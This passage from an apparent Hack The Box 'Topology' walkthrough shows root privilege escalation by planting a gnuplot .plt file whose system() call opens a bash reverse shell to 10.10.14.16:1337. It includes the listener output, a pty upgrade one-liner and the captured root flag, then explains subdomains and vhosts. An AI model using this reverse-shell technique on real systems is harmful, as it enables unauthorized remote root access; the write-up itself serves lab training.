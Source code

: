 ```bash

[ ! ] Reverse shell command copied to clipboard!
[ + ] In case you want to upgrade your shell, you can use this:

python -c 'import pty;pty.spawn("/bin/bash")'

---------- [ SETUP LISTENER ] ----------

[ x ] yes
[   ] no
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:1337
Ncat: Listening on 0.0.0.0:1337
```

We have our listener open, so we are ready to create the `.plt` file and see what happens:

```bash
vdaisley@topology:~$ nano system_command.plt
vdaisley@topology:~$ cat system_command.plt
system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.16/1337 0>&1'")
vdaisley@topology:~$ cp system_command.plt /opt/gnuplot/
```

Back to our listener:

```bash
---------- [ SETUP LISTENER ] ----------

[ x ] yes
[   ] no
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.11.217:36174.
bash: cannot set terminal process group (4236): Inappropriate ioctl for device
bash: no job control in this shell
root@topology:~# cat /root/root.txt
cat /root/root.txt
75767b0bf7f675efb539256549a87b4f
```

## Extra

We can perform a scan for virtual hosts and subdomains right at the start of our web server enumeration. Let's remind ourselves what's the difference between a subdomain and a vhost is:

_A **subdomain** is a **part of a larger domain**. It is a way to organize and structure a website's content hierarchy. Subdomains are created by adding a prefix to the main domain, forming a new address. For example, if `example.com` is the main domain, `blog.example.com` and `shop.example.com` could be subdomains. Subdomains are often **used to divide a website into distinct sections**, each with its own content or purpose._

_A **vhost**, is a **configuration method used by web servers** (like Apache or Nginx) to host **multiple domain names on a single server**. With virtual hosting, a single physical server can serve content for multiple domains, and **each domain is treated as if it has its own server instance**. Vhosts are defined in the web server's configuration files, and they allow different websites to coexist on the same server, each with its own settings, files, and configurations._
